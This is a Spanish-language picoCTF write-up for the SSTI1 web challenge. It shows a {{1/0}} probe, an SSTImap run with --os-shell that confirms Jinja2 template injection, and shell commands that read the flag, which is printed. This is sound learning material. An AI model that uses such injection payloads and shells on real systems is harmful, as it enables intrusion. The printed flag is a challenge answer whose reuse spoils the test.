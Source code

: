 ```yaml
---
title: SST1
date: 2025-04-10 17:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, ssti, sstimap, explotación web]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```


>SSTI1
Author: Venax
Description
I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website here!
{: .prompt-tip }

El reto parece mostrar una web donde puedes introducir lo que quieras y lo mostrará en una página
Lanzamos la instancia y nos mostrará una web con un formulario y un botón para enviarlo. 
``` html
 Home

I built a cool website that lets you announce whatever you want!*
What do you want to announce: 

*Announcements may only reach yourself 
```
Cuando envías el formulario en el botón ok , te redirige a una web http://rescued-float.picoctf.net:54968/announce y allí aparecerá
el "anuncio" introducido en letras grandes

Al principio no tenía ni idea así que mire la pista que da, __Server Side Template Injection__ . Entonces fue cuando caí en la cuenta
muchos templates utilizan las llaves "{}" para parametrizar valores en los mismos, entonces comencé a experimentar con este tipo de 
inyección. 

Encontré una que produjo un error en el servidor al dividir por 0, lo que indica que en cierta manera el servidor ejecuta lo que está dentro de las llaves

>\{\{1/0\}\}

``` html
Internal Server Error

The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.
```

Para tratar de explotar si existiera alguna vulenerabilidad utilizo SSTIMap [hacktools/#ssti](../hacktools/#ssti)
La primera prueba me confirma que parece que la web utiliza un plugin que es inyectable
**jinja2 plugin has confirmed injection with tag '*'**

Ahora podría atacar el plugin en concreto pero voy a intentarlo de nuevo pasandole la flag --os-shell y ver que pasa
``` shell
(sstimap) pablo☠office sstimap$ python sstimap.py --url="http://rescued-float.picoctf.net:55270" -f  --os-shell

    ╔══════╦══════╦═══════╗ ▀█▀
    ║ ╔════╣ ╔════╩══╗ ╔══╝═╗▀╔═
    ║ ╚════╣ ╚════╗  ║ ║    ║{║  _ __ ___   __ _ _ __
    ╚════╗ ╠════╗ ║  ║ ║    ║*║ | '_ ` _ \ / _` | '_ \
    ╔════╝ ╠════╝ ║  ║ ║    ║}║ | | | | | | (_| | |_) |
    ╚══════╩══════╝  ╚═╝    ╚╦╝ |_| |_| |_|\__,_| .__/
                             │                  | |
                                                |_|
[*] Version: 1.2.3
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] Loaded plugins by categories: languages: 5; generic: 3; legacy_engines: 2; engines: 17
[*] Loaded request body types: 4

[*] Starting form detection...
[+] Form found: POST http://rescued-float.picoctf.net:55270/ "content="
[*] Scanning form with url: http://rescued-float.picoctf.net:55270/
[*] Testing if Body parameter 'content' is injectable
[*] Twig_v1 plugin is testing rendering with tag '*'
[*] Freemarker plugin is testing rendering with tag '*'
[*] Jinja2 plugin is testing rendering with tag '*'
[+] Jinja2 plugin has confirmed injection with tag '*' 
[+] SSTImap identified the following injection point:

  Body parameter: content
  Engine: Jinja2
  Injection: *
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, python code

[+] Run commands on the operating system.
posix-linux $ ls
__pycache__
app.py
flag
requirements.txt
posix-linux $ cat flag
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}
```
Pues resulta que te podemos conseguir una shell y haciendo un simple ls y cat obtenemos la flag.

flag: **picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}**